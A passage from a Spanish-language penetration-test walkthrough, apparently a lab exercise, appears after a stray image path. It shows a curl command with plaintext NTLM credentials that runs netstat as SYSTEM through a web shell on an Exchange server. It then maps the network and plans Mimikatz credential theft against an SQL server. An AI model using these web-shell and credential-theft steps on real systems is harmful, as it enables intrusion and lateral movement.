 **Comando 3: Conexiones de Red Activas (CRÍTICO)**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=netstat -an" \
     https://10.1.0.6/ews/contact.aspx
```

**Salida relevante (extracto):**
```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    10.1.0.6:52341         10.1.0.7:1433          ESTABLISHED
  TCP    10.1.0.6:52342         10.1.0.7:1433          ESTABLISHED
  TCP    10.1.0.6:52343         10.1.0.7:1433          ESTABLISHED
```

**Análisis crítico:**
- **Puerto 1433**: Puerto estándar de Microsoft SQL Server
- **10.1.0.7**: Dirección IP del servidor SQL
- **ESTABLISHED**: Múltiples conexiones activas hacia SQL Server
- **Implicación**: El servidor Exchange mantiene conexiones persistentes con un SQL Server

**Correlación con inteligencia previa:**
- En el Paso 2, se identificó al usuario "tous" como miembro de "SQL Admins"
- Ahora se confirma la existencia y ubicación del servidor SQL
- Se establece la relación entre Exchange y SQL

#### Hallazgos Clave

**1. Confirmación de Privilegios**
- Ejecución como SYSTEM en WATERFALLS
- Máximo nivel de acceso en el servidor Exchange
- Capacidad de acceder a recursos sensibles del sistema

**2. Topología de Red**
- Servidor Exchange: WATERFALLS (10.1.0.6)
- Controlador de Dominio/DNS: DISKJOCKEY (10.1.0.4)
- Servidor SQL descubierto: 10.1.0.7 (Puerto 1433)

**3. Objetivo Identificado**
- El servidor SQL en 10.1.0.7 se convierte en el próximo objetivo
- Las conexiones activas indican que es un servidor en producción
- Puerto 1433 (MSSQL) confirma el tipo de servicio

**4. Ruta de Ataque**
- Para acceder a 10.1.0.7, se necesitan credenciales de "tous"
- El siguiente paso lógico es el robo de credenciales privilegiadas
- El servidor Exchange es la plataforma ideal para ejecutar Mimikatz
